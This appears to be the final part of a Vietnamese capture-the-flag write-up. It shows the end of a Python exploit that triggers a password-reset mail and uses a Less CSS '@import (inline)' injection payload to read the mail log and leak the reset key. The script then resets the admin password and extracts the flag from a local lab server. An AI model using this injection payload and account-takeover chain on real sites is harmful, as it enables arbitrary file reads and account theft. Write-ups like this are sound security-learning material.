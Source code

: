 ```py
    def login_get_flag(self):
        url = f"{self.baseURL}/login"
        data = {
            "username": "admin",
            "password": self.newPassword
        }
        response = requests.post(url=url, data=data, timeout=self.timeout)
        if response.status_code == 200:
            print(f"[+] Login Success: ", response.text, "\n")
        else:
            print(f"[-] Login Failed: ", response.text, "\n")

        flag = re.search(r"(flag\{.*?\})", response.text, re.IGNORECASE)
        if flag:
            print(f"[+] DONE FLAG HERE: \n", flag.group(1))
        else:
            print(f"[-] Not Flag")

    def run(self):
        self.trigger_reset_mail()
        self.leak_secret_key()
        css_text = self.fetch_image()
        if not css_text:
            print(f"[+] Not Found Key")
            return
        key = self.pass_reset_key(css_text)
        if not key:
            print(f"[-] Secret key regex not found")
            return
        print(f"[+] Got Key: ", key)
        self.pass_reset(key)
        self.login_get_flag()


if __name__ == "__main__":
    BASE_URL = "http://127.0.0.1:3000"
    newPassword = "123"
    payload = '#5C62D6;@import (inline) "mail.log";'
    timeout = 5.0
    exploit = Exploit(BASE_URL, newPassword, payload, timeout)
    exploit.run()
```
Ouput: <br>
<img width="626" height="347" alt="image" src="https://github.com/user-attachments/assets/76b05b6b-caed-4ac5-b444-f41e74459d76" /> <br>
## Kết Luận
Những gì tôi học được: <br>
> 1. Lợi dụng Less CSS Injection để đọc file tùy ý RCE





